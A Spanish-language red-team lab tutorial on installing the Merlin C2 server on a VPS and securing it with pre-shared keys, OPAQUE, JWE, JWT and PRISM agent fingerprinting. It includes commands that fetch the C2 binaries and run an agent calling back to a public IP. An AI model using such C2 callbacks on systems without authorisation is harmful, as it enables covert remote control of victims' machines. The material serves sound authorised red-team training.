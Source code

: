 # Infraestructura de Red Team Segura (Merlin C2)

Imaginemos que no contamos con un C2, estaríamos utilizando un netcat, sin manejo de autenticación donde cualquiera podría conectarse, inmediatamente a los minutos de desplegado nuestra infraestructura recibiremos conexión de diversos escáneres en internet. 

Tampoco contamos con los principios de la seguridad CIA y surgen muchas preguntas:

* Utilizaríamos un listener en metasploit, pero de quien es la shell? 
* ¿Dónde fue disparada? 
* ¿De dónde fue realizada la conexión?
* ¿Quién tiene control del otro lado?

Como resultado:

* Necesitamos tratar la Internet abierta como un espacio disputado porque lo es.
* Nuestros listener necesitan ser salvaguardados. Los escáneres, los blue teams y otros actores de Internet  estarán molestando todo el día.
* Nuestras payloads requieren autenticación. De lo contrario, cualquiera puede lanzar una shell  y cualquiera puede atrapar una shell.
* Nuestro tráfico C2 debe ser confidencial. De lo contrario, el mundo puede ver los comandos que usemos.

Lo primero que debemos pensar al momento de iniciar el despliegue de nuestra infraestructura de ataque es el calculo del riesgo de la nube. Una infraestructura en cualquier proveedor de nube al final no estamos usando nuestros equipos, sin embargo debemos preguntarnos siempre: ¿Quién el dueño de la data?

![1](img/1.png)

Fuente: https://malcomvetter.medium.com/responsible-red-teams-1c6209fd43cc

Es fundamental  poder desplegar nuestra infraestructura de manera rápida, sin embargo no podemos dejar de lado las implicaciones legales, existen decretos o leyes, para la protección de datos en la nube.

En el siguiente artículo buscamos continuar con una serie de laboratorios de uno de los mejores cursos de red team que hemos tomado en los últimos meses de [https://taggartinstitute.org](https://taggartinstitute.org/courses/responsible-red-teaming/) 

##### Requerimientos

- Máquina virtual con Kali 4GB de Ram mínimo, deseable 8GB de Ram.
- [VPS con Ubuntu Server](https://www.vultr.com/?ref=7249687) con 1Gb de RAM para el C2
- Permitir reglas de entrada en los puertos 22 y 8443



##### Instalación de Merlin

Vamos a proceder a instalar el C2 Server en la nube utilizando ubuntu server 20.04 como base

```shell
sudo su
apt update && apt install p7zip-full -y
```



![2](img/2.png)

Verificamos que se instalara correctamente la herramienta

`7za`

![3](img/3.png)

Vamos a crear un directorio de trabajo donde vamos a descargar el compilado del C2

```shell
mkdir merlin && cd merlin && curl -L  https://github.com/Ne0nd0g/merlin/releases/download/v1.5.0/merlinServer-Linux-x64.7z -o merlinServer-Linux-x64.7z
```

![4](img/4.png)

Vamos a descomprimir, el password es **merlin**

```shell
7za x merlinServer-Linux-x64.7z
```

![5](img/5.png)

Comprobamos que este el ejecutable y ejecutamos el server C2

![6](img/6.png)

Debes aparecernos el prompt del c2

![7](img/7.png)

Ahora en nuestro Kali vamos a instalar el agente, lo bajos del repo oficial

```shell
sudo su
mkdir merlin && cd merlin && curl -L https://github.com/Ne0nd0g/merlin/releases/download/v1.5.0/merlinAgent-Linux-x64.7z  -o merlinAgent-Linux-x64.7z
```

![8](img/8.png)

Extraemos el agente que de igual manera el password es **merlin**

```shell
apt update && apt install p7zip-full -y 
7za merlinAgent-Linux-x64.7z

```

![9](img/9.png)

Ejecutamos el agente y verificamos la version

```shell
./merlinAgent-Linux-x64 -version
```

![10](img/10.png)

##### Configuración de Sesión Merlin

Procedemos a configurar un listener en el servidor c2  de la siguiente manera

![11](img/11.png)

Vamos a ejecutar el listener, pero debemos observar que podemos cambiar la llave PSK, en estos momentos es merlin pero vamos  a modificarla antes de iniciar

![12](img/12.png)

Iniciamos el listener 

![13](img/13.png)

Para la conexión al ser un listener usando http, utilizaremos la url, desde el kali

```shell
./merlinAgent-Linux-x64 -url http://20.100.202.220:8443 -psk Toadec -padding 0 --sleep 5s -skew 0 -proto http -v
```

![14](img/14.png)

Si establecemos sesión debe aparecernos d ella siguiente manera, en el lado izquierdo observamos la autenticación fue exitosa

![15](img/15.png)

##### Autenticación, Confidencialidad  e Integridad

Merlin tiene la ventaja de ser considerado criptográficamente seguro por la combinación de 3 protocolos. 

- [OPAQUE:](https://posts.specterops.io/merlin-goes-opaque-for-key-exchange-420db3a58713) es un sistema criptográfico diseñado para permitir el intercambio seguro de claves sin el uso de una infraestructura de clave pública. Esto significa que puede convertir una clave precompartida (PSK) en un sistema protegido criptográficamente.

  ![18](img/18.png)

- JWE: La confidencialidad de los mensajes es crucial para las operaciones. Merlin tiene múltiples protocolos que pueden transmitir mensajes. Cada protocolo protege los mensajes mediante el uso de JSON Web Encryption.

  Luego que OPAQUE crea una llave simétrica, esta llave es utilizada para cifrar cada mensaje que es enviado al agente. El formato es similar al siguiente:

  ![16](img/16.png)

  De manera que el manseja debe lucir como esto:
  ![17](img/17.png)

- [JWT](https://blog.toadsec.io/2021/05/05/JWT-101.html): Merlin combate la inyección de mensajes y el acceso no autorizado al listerner mediante JSON Web Tokens. Un listener de Merlin solo responderá a un mensaje que tenga al menos un JWT en su encabezado de autorización. El valor de JWT debe coincidir con uno que se creó en el registro del agente para que se acepte y procese un mensaje. Todos los demás mensajes se descartan con un error 400 o 404.

##### PRISM: Responsabilidad como Código

Básicamente versiones anteriores de Merlin, incluían una herramienta llamada PRISM, debido a que  desde la versión 0.8.0 la contraseña default  de Merlin es **merlin**, en algunos casos como el nuestro la modificamos pero aquellos operatos que inician en el mundo de red team pueden omitir cambiarla. Por ende PRISM se implemento en la versión **v0.9.0-beta** vamos a probarla 

```shell
mkdir merlin-old && cd merlin-old && curl -L https://github.com/Ne0nd0g/merlin/releases/download/v0.9.0-beta/merlinServer-Linux-x64.7z -o merlinServer-Linux-x64.7z
```

![20](img/20.png)

Comprobamos la versión

```shell
./merlinServer-Linux-x64  -version
```

![21](img/21.png)



Vamos a ponerla en escucha y configurarla igual que el anterior, solamente que en la conexión modificaremos la clave en el agente

![22](img/22.png)



Si utilizamos la misma PSK anterior nos arrojara un error

![23](img/23.png)

Vamos a utilizar ahora uno con la PSK correcta, pero nos arrojará otro error debido a que el agente no es el esperado y no contiene el fingerprints que identifique al agente correctamente.

![24](img/24.png)



##### Conclusión

* Hemos comprobado que Merlin permite configuraciones que herramientas como metasploit y meterpreter por defecto no traen, como son la autenticación y el cifrado, no obstante a pesar que podemos limitar los ip que puedan accede a los listener en metasploit, esto no quiere decir que usuarios indebidos no puedan accesar a nuestros listeners. 
* Merlin con su herramienta de PRISM lleva un poco más adelante la seguridad al tener payload con autenticación, de esta manera solamente los agentes y los listones establecen sesiones con la llave PSK en ambos lados.
* Contamos con un intercambio seguro de llaves y mensajes con OPAQUE y JWE.
* Por último mantenemos la integridad de los mensajes forzando el uso de JWT.

En entregas siguientes enseñaremos como podemos utilizar redirectors que nos permitirán desplegar nuestro C2 On-premise y disminuir nuestra superficie de ataque manteniendo la data en nuestros servidores.

